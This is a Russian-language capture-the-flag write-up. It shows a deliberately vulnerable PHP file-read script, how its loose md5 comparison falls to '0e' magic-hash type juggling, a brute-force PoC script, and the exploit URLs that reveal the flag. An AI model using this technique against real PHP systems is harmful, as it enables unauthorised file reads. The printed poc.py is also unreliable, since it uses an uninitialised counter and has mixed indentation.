 # Lviv (1.owaspctf.gq)

На главной странице видим листинг директории (Apache autoindex).

Из перечисленных файлов интересным является `developers_mod_v7499.php`.
HTML форма намекает что здесь должен быть arbitrary file read, но почему-то ни `/etc/passwd` ни `flag.php` не читаются.
Пробуем прочитать сам же `developers_mod_v7499.php`:

`https://1.owaspctf.gq/developers_mod_v7499.php?file=developers_mod_v7499.php`

```
<?php
echo("<h3>Short FileName read</h3>");
$filename = explode(".",$_REQUEST["file"])[0].".php";
if($_REQUEST["file"] && (pathinfo($_REQUEST["file"])['extension']) == "php"){
		if(substr(md5($_REQUEST["file"]),0,8) == substr(md5("developers_mod_v7499.php"),0,8)) {
			echo("<pre>".htmlentities(file_get_contents($filename))."</pre>");
	}
}
else
{
echo("select file");
}
?>

<html>
<form>
<input type="text" name="file">
<input type="submit">
</form>
</html>
```

Теперь становится понятно что данный скрипт выводит только файлы с расширением `.php`.
Кроме того имя файла разбивается по точке и берется только первая часть, после чего к ней добавляют `.php`

То есть если мы отправим `?file=foo.bar.baz.quiz.php` в итоге читаться будет `foo.php`.
Далее сравниваются первые 8 байт от md5 имени переданного нами файла и самого `developers_mod_v7499.php`.

```
$ echo -n 'developers_mod_v7499.php' | md5sum -
0e393363953b6949e369152cc3d1bba5  -
```

Значит это [type juggling](https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf).

Осталось только сгенерировать строку вида `flag.[anything].php` что бы первые 8 байт от md5 были вида
```
0e[only_digits]
00e[only_digits]
000e[only_digits]
etc
```

poc.py:
```
import hashlib
import re

while True:
	h = hashlib.md5('flag.{}.php'.format(i)).hexdigest()[:8]
	if re.search(r'^[0]+e[0-9]+$', h):
		break
    i += 1
print('flag.{}.php'.format(i))
```

Получаем `flag.1259.php`

`https://1.owaspctf.gq/developers_mod_v7499.php?file=flag.1259.php`

```
<?php

if($_GET["flag"]==="FLAG{Magic_Hashes_Voodoo_Hashes}"){
	echo ("Correct");
}

?>
```

`FLAG{Magic_Hashes_Voodoo_Hashes}`
